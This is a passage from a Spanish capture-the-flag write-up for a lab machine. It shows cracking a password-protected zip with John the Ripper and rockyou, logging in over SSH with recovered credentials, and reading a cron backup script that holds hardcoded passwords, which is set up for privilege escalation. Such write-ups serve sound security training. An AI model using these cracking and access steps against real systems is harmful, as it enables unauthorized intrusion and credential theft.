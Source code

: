 Crackeemos ese hash con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockandroll      (credenciales.zip/credenciales.xlsx)     
1g 0:00:00:00 DONE (2025-07-30 09:30) 25.00g/s 307200p/s 307200c/s 307200C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Bien, al descomprimir ese archivo, obtenemos un **Excel** que podemos abrir con **libreoffice**:
```bash
libreoffice credenciales.xlsx
```

<p align="center">
<img src="/assets/images/THL-writeup-runners/Captura10.png">
</p>

Tenemos la contraseña del **usuario maria**.

Autentiquemonos como este usuario:
```bash
ssh maria@192.168.10.240 -p 2222
maria@192.168.10.240's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 6.8.0-49-generic x86_64)
...
Last login: Mon Dec  2 15:57:37 2024
maria@30acf6ca1fb6:~$ whoami
maria
```

<br>

<h2 id="Script">Modificando Script y Abusando de Tarea CRON de Contenedor para Escalar Privilegios y Ganar Acceso a la Máquina Víctima</h2>

Ya como el **usuario maria**, podemos ver y modificar el script que habíamos encontrado en la ruta `/opt/scripts`:
```bash
maria@30acf6ca1fb6:~$ cat /opt/scripts/backup.sh 
#!/bin/bash

BACKUP_DIR="/srv/backups"
DB_NAME="blog"
DB_USER="root"
ZIP_PASSWORD="metallica"

BACKUP_FILE="$BACKUP_DIR/blog_backup_$(date +'%Y%m%d%H%M').sql"
/usr/bin/mysqldump -u $DB_USER $DB_NAME > $BACKUP_FILE

zip -P "$ZIP_PASSWORD" "${BACKUP_FILE}.zip" "$BACKUP_FILE"

rm -f "$BACKUP_FILE"
```